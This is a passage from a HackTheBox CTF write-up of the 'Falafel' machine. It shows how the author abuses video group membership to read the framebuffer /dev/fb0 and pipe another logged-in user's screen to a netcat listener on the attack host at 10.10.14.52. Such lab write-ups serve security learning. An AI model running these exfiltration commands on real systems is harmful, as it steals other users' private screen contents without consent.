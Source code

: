 Based on the output from the `id` command we can see that `moshe` is a part of the `video` group. This group membership can be abused to capture screen frames for other logged in users.


If we run the `w` command, we can see that `yossi` is also connected:

![w-27](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Falafel/img/w-27.png)


If we check for any frame-buffer devices on the system, we will find one such device:

```bash
ls /dev/ | grep fb*
```

![device-28](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Falafel/img/device-28.png)


This is probably where `yossi`'s screen is being rendered from. 


We can abuse our `video` group membership to copy the contents of this device and send it over to our attack machine to analyze. For this, I start a local listener on my attack machine which redirects the input to a file:

```bash
nc -lnvp 3899 > screen.raw
```

Then, from the target I `cat` the device and pipe it to my netcat listener:

```bash
cat /dev/fb0 | nc 10.10.14.52 3899
```

The next step is to find the resolution that the screen is using. This we can find using:

```bash
cat /sys/class/graphics/fb0/virtual_size
```
